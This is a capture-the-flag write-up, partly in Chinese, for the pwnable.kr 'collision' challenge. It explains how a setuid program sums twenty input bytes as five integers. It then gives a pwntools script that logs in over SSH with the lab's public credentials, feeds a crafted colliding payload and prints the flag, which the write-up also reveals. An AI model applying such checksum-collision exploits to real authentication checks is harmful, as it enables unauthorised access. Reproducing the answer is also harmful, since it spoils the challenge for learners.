

# Collision
## Environment
```
ssh col@pwnable.kr -p2222
pw: guest
```


## Flow
* 登入後，查看檔案 
```
col@pwnable:~$ ls -l
total 16
-r-sr-x--- 1 col_pwn col     7341 Jun 11  2014 col
-rw-r--r-- 1 root    root     555 Jun 12  2014 col.c
-r--r----- 1 col_pwn col_pwn   52 Jun 11  2014 flag
```
* 查看 col.c，會發現要輸入 20 個字元，並且經由下方 function 轉換後要等於 0x21DD09EC
```
unsigned long check_password(const char* p){
	int* ip = (int*)p;
	int i;
	int res=0;
	for(i=0; i<5; i++){
		res += ip[i];
	}
	return res;
}
``` 
* 首先要先搞懂 `int* ip = (int*)p;` 是什麼意思
* 由於 p 是個 20 byte 的 char array, 所以將 p 轉成 int* 形式, 可以得到一個 int array
* 因為 int 是 4 byte, 所以每 4 char 會轉換成一個 int, 也就是只要拼湊出 20 btyes, 便可成功 exploit
    * 0x21DD09EC / 5 = 0x6c5cec8, 0x21DD09EC % 5 = 4 
* 使用 python 可以印出任何 ASCII code, 使用 python 便可以輸入非文字的 ascii
```python
from pwn import *

payload = p32(0x6c5cec8) * 4 + p32(0x6c5cecc)

r = ssh('col', 'pwnable.kr', password='guest', port=2222)
p = r.process(executable="./col", argv=['col', payload])

flag = p.recv()
log.success(f"Flag: {flag}")
p.close()
r.close()

```

## Flag
```
daddy! I just managed to create a hash collision :)
```
